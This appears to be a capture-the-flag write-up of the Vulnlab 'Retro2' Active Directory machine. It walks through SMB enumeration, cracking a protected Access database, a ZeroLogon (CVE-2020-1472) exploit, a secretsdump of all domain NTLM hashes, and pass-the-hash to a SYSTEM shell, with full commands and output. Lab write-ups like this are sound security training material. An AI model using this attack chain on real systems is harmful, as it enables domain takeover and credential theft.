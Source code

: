 ```yaml
---
title: Vulnlab RETRO-2 Machine
date: 2025-10-31 00:00:00 +0000
categories: [WRITUPS, ACTIVE DIRECTORY]
tags: [activedirectory, zerplogon]     # TAG names should always be lowercase
---
```


# RETRO-2

IP : `10.10.77.74`

## Network Mapping

We start with an nmap scan to find an entry point.

```bash
# Nmap 7.95 scan initiated Wed Jun 25 18:02:47 2025 as: /usr/lib/nmap/nmap -sC -sV -p- -T4 -A -oN nmap_all.txt 10.10.107.6
Nmap scan report for 10.10.107.6
Host is up (0.20s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15F75) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15F75)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-25 22:14:32Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: retro2.vl, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds  Windows Server 2008 R2 Datacenter 7601 Service Pack 1 microsoft-ds (workgroup: RETRO2)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: retro2.vl, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Service
| rdp-ntlm-info: 
|   Target_Name: RETRO2
|   NetBIOS_Domain_Name: RETRO2
|   NetBIOS_Computer_Name: BLN01
|   DNS_Domain_Name: retro2.vl
|   DNS_Computer_Name: BLN01.retro2.vl
|   DNS_Tree_Name: retro2.vl
|   Product_Version: 6.1.7601
|_  System_Time: 2025-06-25T22:15:32+00:00
| ssl-cert: Subject: commonName=BLN01.retro2.vl
| Not valid before: 2025-06-24T22:01:15
|_Not valid after:  2025-12-24T22:01:15
|_ssl-date: 2025-06-25T22:16:12+00:00; +1s from scanner time.
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49173/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port

```

With the above output, we see that we have access to an Active Directory network with the following ports: 88, 135, 139, 389, and 445.

## File sharing enumeration

We are starting to see if we can find anything interesting in file sharing.

```bash
└─# smbclient  -L  \\\\10.10.77.74\\ 

Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Public          Disk      
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.77.74 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```

We see a shared Public folder. Let's see what we can find that's interesting.

```bash
└─# smbclient   \\\\10.10.77.74\\Public

Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Aug 17 10:30:37 2024
  ..                                  D        0  Sat Aug 17 10:30:37 2024
  DB                                  D        0  Sat Aug 17 08:07:06 2024
  Temp                                D        0  Sat Aug 17 07:58:05 2024

                6290943 blocks of size 4096. 1334694 blocks available
smb: \> cd DB\
smb: \DB\> dir
  .                                   D        0  Sat Aug 17 08:07:06 2024
  ..                                  D        0  Sat Aug 17 08:07:06 2024
  staff.accdb                         A   876544  Sat Aug 17 10:30:19 2024

                6290943 blocks of size 4096. 1332471 blocks available
smb: \DB\> 
```

We find a file named staff.accdb in the DB folder; this is a **Microsoft Access database** file. 

![Desktop View](/assets/img/sample/askforpassword.png){: .normal }

The file is password protected, so let's try to crack it with johntheripper.

- First, convert it to a format that John can use.

```bash
┌──(root㉿kali)-[~/Vulnlab/machines/retro2]
└─# office2john staff.accdb > hash.txt                                                                                     
```

- I cracked it with this command.

```bash
└─# john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```bash
┌──(root㉿kali)-[~/Vulnlab/machines/retro2]
└─# john --show hash.txt 
staff.accdb:class08

1 password hash cracked, 0 left
```

## Initial access

After opening the file, we noticed some identifiers. 

![Desktop View](/assets/img/sample/codeldap.png){: .normal }

Now we are trying to verify whether the students obtained valid identifiers.

```bash
┌──(root㉿kali)-[~/Vulnlab/machines/retro2]
└─# crackmapexec smb 10.10.77.74 -u 'ldapreader' -p ppYaVcB5R
SMB         10.10.77.74     445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         10.10.77.74     445    BLN01            [+] retro2.vl\ldapreader:ppYaVcB5R 
```

We see that we have valid credentials, with which we can:
- Use Bloodhound for enumeration (I didn't find anything interesting)
- Try to connect with evil-winrm (which didn't work, as the user is not in a remote access group)
- Enumerate available users and groups using crackmapexec
- Find ASREPROAST accounts

But this time I tried listing with nxc, testing the different modules through SMB. And when testing zeroLogon, I saw that it worked well.

```bash
┌──(root㉿kali)-[~/Vulnlab/machines/retro2]
└─# nxc smb retro2.vl -u 'ldapreader'  -p ppYaVcB5R -M zerologon
SMB         10.10.77.74     445    BLN01            [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True) 
SMB         10.10.77.74     445    BLN01            [+] retro2.vl\ldapreader:ppYaVcB5R 
ZEROLOGON   10.10.77.74     445    BLN01            VULNERABLE
ZEROLOGON   10.10.77.74     445    BLN01            Next step: https://github.com/dirkjanm/CVE-2020-1472

```

We download our scripts here 

[https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)

```bash
┌──(root㉿kali)-[/opt/CVE-2020-1472]
└─# python cve-2020-1472-exploit.py  BLN01 10.10.77.74
Performing authentication attempts...
====================================================================================================================================================================
Target vulnerable, changing account password to empty string

Result: 0

Exploit complete!

```

- BLN01 the hostname of the DC

I was inspired by this video to move forward. 

[https://www.youtube.com/watch?v=2YNj5yTy0V0&t=10s](https://www.youtube.com/watch?v=2YNj5yTy0V0&t=10s)

So, in summary, as shown in the result above, the exploit was successful and changed the account password to an empty password with the following hash: 31d6cfe0d16ae931b73c59d7e0c089c0
So I did a remote dump with secretsdump. 

```bash
impacket-secretsdump -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'retro2.vl/BLN01$@10.10.118.1'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c06552bdb50ada21a7c74536c231b848:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1e242a90fb9503f383255a4328e75756:::
admin:1000:aad3b435b51404eeaad3b435b51404ee:c06552bdb50ada21a7c74536c231b848:::
Julie.Martin:1105:aad3b435b51404eeaad3b435b51404ee:cf4999af837f40d72d1c5bcec27ba9b6:::
Clare.Smith:1106:aad3b435b51404eeaad3b435b51404ee:a7c82ec08414f0c54637fad20b9aac9e:::
Laura.Davies:1107:aad3b435b51404eeaad3b435b51404ee:ee74607fad6d8c51b0d488e322f82317:::
Rhys.Richards:1108:aad3b435b51404eeaad3b435b51404ee:09377f210fdbdcda6f97eda91ddc6879:::
Leah.Robinson:1109:aad3b435b51404eeaad3b435b51404ee:6333c620221c04d8fb5b6d7ca8b6d6d7:::
Michelle.Bird:1110:aad3b435b51404eeaad3b435b51404ee:c823220a9bda3ca70ebe7362187c9004:::
Kayleigh.Stephenson:1111:aad3b435b51404eeaad3b435b51404ee:a78835f0139b3b206f9598fe9c18d707:::
Charles.Singh:1112:aad3b435b51404eeaad3b435b51404ee:432119e62a10aff8c8200e4f45e772a0:::
Sam.Humphreys:1113:aad3b435b51404eeaad3b435b51404ee:3c1508fc774de1e6040c68b41a17fdee:::
Margaret.Austin:1114:aad3b435b51404eeaad3b435b51404ee:c6ebda46b0b014eda3ffcb8d92d179d9:::
Caroline.James:1115:aad3b435b51404eeaad3b435b51404ee:80835fee4ce88524f63a0ecf60870ac0:::
Lynda.Giles:1116:aad3b435b51404eeaad3b435b51404ee:dbf17856bd378ec410c20b98a749571f:::

```

We see that we have obtained the administrator's NTLM hash: aad3b435b51404eeaad3b435b51404ee:c06552bdb50ada21a7c74536c231b848; I can therefore use it to log in with impacket-psexec.

```bash
┌──(root㉿kali)-[~/Vulnlab/machines/retro2]
└─# impacket-psexec retro.vl/administrator@retro2.vl -hashes aad3b435b51404eeaad3b435b51404ee:c06552bdb50ada21a7c74536c231b848
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on retro2.vl.....
[*] Found writable share ADMIN$
[*] Uploading file kPaAYnTj.exe
[*] Opening SVCManager on retro2.vl.....
[*] Creating service mGED on retro2.vl.....
[*] Starting service mGED.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami 
nt authority\system

C:\Windows\system32> 

```

After all, I looked for other methods, and I came across these blogs that tried a different approach:

[Retro2 - Vulnlab](https://seriotonctf.github.io/Retro2-Vulnlab/)

[Vulnlab - Retro2 Writeup](https://lfgberg.org/2025/05/17/vulnlab/retro2/)

[Vulnlab - Retro2](https://xavilok.es/vulnlab---retro2)